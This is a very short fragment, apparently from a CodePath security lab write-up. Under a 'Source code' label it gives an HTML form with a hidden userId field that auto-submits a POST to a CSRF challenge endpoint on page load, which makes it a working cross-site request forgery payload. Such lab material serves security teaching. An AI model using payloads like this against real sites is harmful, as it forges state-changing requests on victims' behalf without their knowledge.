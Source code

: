 <form name="csrfForm" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
  <input type="hidden" name="userId" value="ef2c02d3c15d387c3e37fc9535cf1392e076689b" />
  <input type="submit"/>
</form>
<script> document.csrfForm.submit(); </script>

